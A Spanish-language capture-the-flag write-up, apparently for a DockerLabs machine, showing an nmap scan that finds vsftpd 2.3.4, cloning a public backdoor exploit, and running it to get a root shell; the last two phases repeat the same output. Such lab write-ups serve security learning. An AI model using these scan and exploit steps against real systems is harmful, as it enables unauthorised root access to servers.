 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c4413ca3-f8ac-4b05-87a6-5b749ce36a71)

En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **21/tcp (FTP ):** vsftpd 2.3.4

# Fase 2- Exploración
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fe9a8265-af47-4d04-a29f-315e0ca2e1e5)
Se busco la versión y el servicio del puerto corriendo en la maquina y se encontró un repositorio de GitHub.

### Exploit
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d069f050-cf4d-4a0e-ba43-99eb55854d86)
```Python
sudo python3 -m pip install pwntools
```
Estos son los requisitos.
``` python
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
python3 exploit.py Target_IP
```
Y esto es la instalación y como se usa.

# Fase 3- Explotación
``` python
❯ sudo python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
``` 
Lanzamos el exploit y funciono.

# Fase 4- Privilegios
``` python
❯ sudo python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
``` 
Ya somos usuario root. Maquina Finalizada.

